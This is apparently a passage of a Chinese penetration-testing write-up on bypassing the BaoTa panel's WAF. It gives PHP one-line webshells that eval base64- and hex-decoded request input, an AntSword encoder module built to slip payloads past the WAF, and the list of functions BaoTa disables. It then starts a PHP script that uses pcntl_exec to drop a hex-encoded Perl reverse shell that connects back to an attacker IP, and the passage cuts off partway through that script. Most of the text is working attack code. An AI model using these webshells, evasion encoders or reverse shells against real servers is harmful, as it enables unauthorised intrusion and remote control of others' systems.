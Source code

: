 #### 2.4.2 变形一句话

参考了[p师傅的文章](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)，其中提到了php7中[表达式执行的顺序](https://www.php.net/manual/zh/migration70.incompatible.php)的修改，使得现在可以通过('phpinfo')();来执行函数，这样也就绕开了宝塔的限制，所以可以使用以下的一句话`<?php eval(('base64_decode')(('hex2bin')($_REQUEST['test'])));?>`

## 2.5 AntSword绕过宝塔WAF

宝塔面板主要是过滤了蚁剑的UserAgent以及参数里的命令，只需要进行简单的编码就可以进行绕过，关键的是必须直接传处理过的值到服务器，所以就需要特殊定制的一句话以及蚁剑的编码器

编码器代码：

```
/**
 * php::特殊编码器
 */

'use strict';

/*
* @param  {String} pwd   连接密码
* @param  {Array}  data  编码器处理前的 payload 数组
* @return {Array}  data  编码器处理后的 payload 数组
*/
module.exports = (pwd, data, ext={}) => {
  let tmp = Buffer.from(Buffer.from(data['_']).toString('base64')).toString('hex');

  data[pwd] = tmp;

  delete data['_'];
  return data;
}
```

与之对应的是php的一句话也需要进行编码处理：

```php
<?php eval(base64_decode(hex2bin($_POST['x'])));?>
```

### 2.6 绕过禁用函数执行系统命令

BT默认禁用了很多的函数，主要有以下函数：

`passthru,exec,system,chroot,chgrp,chown,shell_exec,popen,proc_open,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru`

参考了[mochazz的文章](https://mochazz.github.io/2018/09/27/渗透测试之绕过PHP的disable_functions/)可以得知，如果开启了 **pcntl** 扩展，就可以利用 **pcntl_exec** 函数来执行命令，当然要想利用这种方法的话还是有些限制的（ **PHP 4 >= 4.2.0, PHP 5 on linux** ），以下是可以使用pcntl反弹shell的脚本：

```PHP
<?php
/*******************************
*查看phpinfo编译参数--enable-pcntl
*作者 Spider
*nc -vvlp 443
********************************/
$ip = 'xxx.xxx.xxx.xxx';
$port = '443';
$file = '/tmp/bc.pl';
header("content-Type: text/html; charset=gb2312");
if(function_exists('pcntl_exec')) {
$data = "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x20\x2d\x77\x0d\x0a\x23\x0d\x0a".
"\x0d\x0a\x75\x73\x65\x20\x73\x74\x72\x69\x63\x74\x3b\x20\x20\x20\x20\x0d\x0a\x75\x73\x65\x20".
"\x53\x6f\x63\x6b\x65\x74\x3b\x0d\x0a\x75\x73\x65\x20\x49\x4f\x3a\x3a\x48\x61\x6e\x64\x6c\x65".
"\x3b\x0d\x0a\x0d\x0a\x6d\x79\x20\x24\x72\x65\x6d\x6f\x74\x65\x5f\x69\x70\x20\x3d\x20\x27".$ip.
```